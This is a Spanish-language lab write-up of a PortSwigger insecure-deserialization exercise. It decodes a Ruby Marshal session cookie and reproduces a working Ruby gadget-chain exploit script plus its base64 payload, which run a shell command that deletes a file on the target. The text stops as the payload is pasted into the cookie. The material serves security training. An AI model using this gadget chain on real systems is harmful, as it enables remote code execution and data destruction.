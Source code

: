 ```yaml
---
title: "Exploiting Ruby deserialization using a documented gadget chain"
description: "Laboratorio de Portswigger sobre Insecure Deserialization"
date: 2025-01-02 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Insecure Deserialization
tags:
  - Insecure Deserialization
  - Exploiting Ruby deserialization using a documented gadget chain
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en la `serialización` y el `framework Ruby on Rails`. Existen `exploits documentados` que permiten la `ejecución remota de código` mediante una `cadena de gadgets` en este `framework`. Para `resolver` el laboratorio, debemos encontrar un `exploit documentado` y adaptarlo para crear un `objeto serializado malicioso` que contenga una `carga útil de ejecución remota de código`. Luego, pasamos este `objeto` al `sitio web` para eliminar el archivo `morale.txt` del `directorio personal` de Carlos. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-7/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-7/image_2.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Insecure-Deserialization-Lab-7/image_3.png)

El `token` está en `base64` así que lo `decodeamos` y vemos que es un `objeto`, esta estructura es típica de la librería `Marshal` de `ruby`

```
# echo 'BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVpa2dnNzM0b3huMnlmaGRpbnB1bGczbDhreGRubGNnZAY7B0YK' | base64 -d 
o:	User:@usernameI"
                        wiener:EF:@access_tokenI"%ikgg734oxn2yfhdinpulg3l8kxdnlcgd;F 
```

En esta web [https://nastystereo.com/security/ruby-3.4-deserialization.html](https://nastystereo.com/security/ruby-3.4-deserialization.html) podemos encontrar `artículos` para `efectuar` un `Deserialization Gadget Chain` en `ruby`. En mi caso voy a usar este `script` extraído de [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) que nos `genera` un `objeto serializado` en `ruby`, el cual nos permite `ejecutar comandos` en `versiones` de ruby `inferiores` a la `3.0.2`

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

require "base64"
puts Base64.encode64(payload).gsub("\n", "")
```

En mi caso he usado [https://www.jdoodle.com/execute-ruby-online](https://www.jdoodle.com/execute-ruby-online) para `seleccionar` la `versión correspondiente` y `generar` el `payload` en `base64`

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ
```

Debido a que el parámetro `session` de la `cookie` es un `objeto` de `ruby`, podemos `abrirnos` el `navegador` y con `Ctrl + Shift + i` pegar el `objeto` que hemos `creado`

![](/assets/img/Insecure-Deserialization-Lab-7/image_4.png)
